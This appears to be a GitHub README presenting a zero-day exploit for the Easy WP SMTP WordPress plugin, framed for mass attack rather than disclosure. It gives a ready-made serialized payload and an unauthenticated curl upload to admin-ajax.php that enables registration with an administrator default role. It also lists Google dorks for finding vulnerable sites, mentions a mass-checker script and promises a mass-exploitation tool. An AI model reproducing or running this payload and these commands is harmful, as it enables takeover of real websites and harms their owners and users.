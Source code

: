 # WordPress-Easy-WP-SMTP-plugin-0day

The popular Easy WP SMTP plugin, which as 300,000+ active installations, was prone to a critical zero-day vulnerability that allowed an unauthenticated user to modify WordPress options or to inject and execute code among other malicious actions.

admin_init() function, from the easy-wp-smtp.php script, is ran via the admin_init hook when a user accesses the admin area. It is used to view/delete the log, import/export the plugin configuration and to update options in the WordPress database. It does not check the user capability, hence any logged in user, such as a subscriber, could trigger it.

# Proof of Concept:

In the following proof of concept, Its going to use swpsmtp_import_settings to upload a file that will contain a malicious serialized payload that will enable users registration (users_can_register) and set the user default role (default_role) to “administrator” in the database.

1. Create a file name “/tmp/upload.txt” and add this content to it:

> a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}

2. Upload the file:

>$ curl https://TARGET.COM/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

3. For mass-checker vuln site list:

> Use my python script: python script.py list.txt & dont forget to install libraries (pip install module).

4. Some GOOGLE DORKS:

>inurl:'/wp-content/plugins/easy-wp-smtp/'
>intext:'Index of /wp-content/plugins/easy-wp-smtp'
>intext:'=== Easy WP SMTP ==='

5. Mass exploiting python script:

> Soon ;)
